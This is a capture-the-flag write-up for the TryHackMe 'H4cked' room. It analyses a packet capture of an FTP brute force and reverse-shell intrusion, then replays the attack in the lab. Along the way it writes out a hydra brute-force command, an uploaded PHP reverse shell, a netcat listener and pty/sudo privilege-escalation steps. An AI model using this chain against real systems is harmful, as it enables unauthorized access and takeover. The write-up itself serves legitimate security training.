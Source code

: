 ```yaml
---
title: "TryHackMe - H4cked"
author: Nasrallah
description: ""
date: 2022-06-01 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, wireshark, ftp, bruteforce, hydra]
img_path: /assets/img/tryhackme/h4cked/
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [H4cked](https://tryhackme.com/room/h4cked) from [TryHackMe](https://tryhackme.com).

# Task1

Let's download the task file, open it with wireshark and start investigating.

![wireshark](1.png)

In the first packets of the capture, we see the attacker trying to connect to port 21, which is FTP.

![](2.png)

We see the attacker attempting to login to an ftp server trying multiple passwords with the user `jenny`. He must be using `hydra` to brute force the login.

![](3.png)

If we scrolled down through the packets we can see a successful login.

![](4.png)

To view the password, right click the packet and follow tcp stream.

![](5.png)

Scrolling down the packets, we can see the hackers own attempt after he stopped brute forcing.

![](6.png)

Right click one of those packets and follow tcp stream.

![](7.png)

Here we can see what the hacked did before exiting.

After the attacked had logged in successfully, he was in `/var/www/html` directory, uploaded a file called `shell.php`, gave it full permissions and exited after that.

We can see that he requested that file after that from his attacking machine, which gave his a reverse shell on the machine.

![](8.png)

Let's now follow the tcp stream of that reverse shell and what did the attacker do.

![](9.png)

After gaining a shell, the attacking run the command `whoami` to see what user's account he is using, and it was `www-data`.

Since he knows jenny's password, the attacker changed to that user with the command `su jenny` after stabilizing his shell with the command `python3 -c 'import pty; pty.spawn("/bin/bash")'`.

The attacker checked jenny's permissions on the machine with the command `sudo -l`, and he found that he can run any command as root, so he simply changed the user to root with `sudo su`.

We can see after that he cloned a repo from github called `reptile`, which is a rootkit.

# Task2

The attacker has changed jenny's password, so let's replicate his steps and try to get into the machine.

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.3.106 (10.10.3.106)
Host is up (0.064s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

We see ftp on port 21 and http on port 80.

# **Foothold**

Same as the hacker, let's start brute forcing ftp server with hydra. `hydra -l jenny -P /usr/share/wordlists/rockyou.txt 10.10.3.106 ftp`

![](10.png)

Great! We got the password, now let's download the reverse shell code the attacker used [here](http://pentestmonkey.net/tools/php-reverse-shell).

Before uploading the file, we need to change the ip address to the one of our attacking machine.

Now let's login the the ftp server and upload the shell.

![](11.png)

After logging successfully, i used the command `put` to upload the reverse shell code (reverse.php), and don't forget to change permission like i did, use `chmod 777 reverse.php`.

Set up a netcat listener `nc -lvnp 1234`, and request the reverse.php file we uploaded, i used curl to do that. `curl http://10.10.10.10/reverse.php`

![](12.png)

Great! We got the reverse shell.

# **Privilege Escalation**

For this part, we saw the hacker use jenny's ability to run any command as root and change the user to root, let's do that.

First, let's run this command `python3 -c 'import pty;pty.spawn("/bin/bash")'` to stabilize our shell.

Change the user to jenny using the password found earlier, and run `sudo su` to change user to root.

![](13.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References

http://pentestmonkey.net/tools/php-reverse-shell